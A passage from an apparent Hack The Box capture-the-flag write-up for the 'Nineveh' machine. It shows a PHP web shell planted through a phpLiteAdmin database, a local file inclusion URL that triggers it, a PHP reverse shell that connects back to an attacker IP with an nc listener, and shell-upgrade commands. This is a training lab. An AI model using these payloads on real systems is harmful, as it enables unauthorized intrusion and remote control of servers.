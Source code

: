 
Let’s view the content of the Remote PHP Code Injection exploit. According to the comments made in the [exploit](https://www.exploit-db.com/exploits/24044), an attacker can create a sqlite database with a php extension and insert php code as text fields. When done, the attacker can execute it simply by accessing the database file using the browser.

## Gaining an Initial Foothold
In the `Create New Database` section, create a new database called `test.php`. Then click on `test.php` in the __Change Database__ section. There, create a new table called `random` with `1` field. In the Field parameter add the following code and change the __Type__ to `TEXT`.

```
<?php echo system($_REQUEST ["cmd"]); ?>
```

![n-10](https://user-images.githubusercontent.com/87711310/213497284-f6f525fc-5407-49ab-8ff4-a04daf625d42.png)

Click Create. As mentioned in the below image, the file is created in the directory `/var/tmp`.


Now, let’s go back to the LFI vulnerability and execute our php code.
```
http://nineveh.htb/department/manage.php?notes=/ninevehNotes/../../../../var/tmp/random.php&cmd=ls
```

We get back the following page.

![n-11](https://user-images.githubusercontent.com/87711310/213497287-3130aa7b-77f2-43d1-89ec-779ee1d712e9.png)

We have code execution! Let’s intercept the request in Burp and add a reverse shell to the cmd parameter.

```php
php -r '$sock=fsockopen("10.10.14.12", 1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Setup a listener to receive the reverse shell.
```
nc -lvnp 1234
```

Sending the request, I immideiately had a reverse shell.
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Nineveh]
└─$ nc -lvnp 1234 
listening on [any] 1234 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.43] 58386
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

I upgraded it to a partially interactive bash shell
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

I tried retrieving the user flag but was denied permission
```
www-data@nineveh:/var/www/html/department$ cd /home
cd /home
www-data@nineveh:/home$ ls
ls
amrois
www-data@nineveh:/home$ cd amrois
cd amrois
www-data@nineveh:/home/amrois$ ls
ls
user.txt
www-data@nineveh:/home/amrois$ cat user.txt
cat user.txt
```